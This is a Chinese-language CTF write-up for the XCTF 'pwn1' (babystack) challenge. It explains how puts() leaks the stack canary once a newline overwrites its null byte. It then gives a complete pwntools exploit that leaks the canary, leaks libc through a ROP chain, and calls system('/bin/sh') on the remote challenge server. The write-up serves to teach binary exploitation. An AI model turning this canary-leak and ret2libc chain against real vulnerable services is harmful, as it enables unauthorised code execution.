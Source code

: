 # 攻防世界-pwn1

## 分析

主程序中，read()读取0x100字节可以把返回地址覆盖，但是我们要知道canary的值。

puts()函数遇到‘\x00’会截断，因为canary以‘\x00’结尾，所以不会输出canary的值。

但是当我们写入0x88字节的数据后，使用sendline()发送回自动加上“\n”，换行符。又因为是小端序，“\n”覆盖了canary结尾的‘\x00’。

所以我们可以得到canary的前7字节，最后只要加上‘\x00’就是完整的canary了。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

p=remote('220.249.52.133',59366)
elf = ELF('./babystack')
#libc=ELF('./libc-2.23.so') #s
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x400a93
main=0x400908

p.sendlineafter('>>','1')
payload='a'*0x88
p.sendline(payload)
p.sendlineafter('>>','2')
p.recvuntil('a'*0x88+'\n')
canary = u64(p.recv(7).rjust(8,'\x00')) #rjust向字符串左侧填充指定字符，即向低地址字节填充
print hex(canary)

p.sendlineafter('>>','1')
payload='a'*0x88+p64(canary)+'a'*8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
#p.sendlineafter('>>','3')
#puts_addr=u64(p.recv(8).ljust(8,'\x00'))
p.sendlineafter('>> ','3') #这里注意>>后有个空格，要输入进去，不然puts_addr就recv了个寂寞╥﹏╥
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
print('this is puts_addr:')
print hex(puts_addr)

libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')

system=base+libc.dump('system')
binsh=base+libc.dump('str_bin_sh')

p.sendlineafter('>>','1')
payload='a'*0x88+p64(canary)+'a'*8+p64(pop_rdi)+p64(binsh)+p64(system)
p.send(payload)
p.sendlineafter('>>','3')
p.interactive()
```
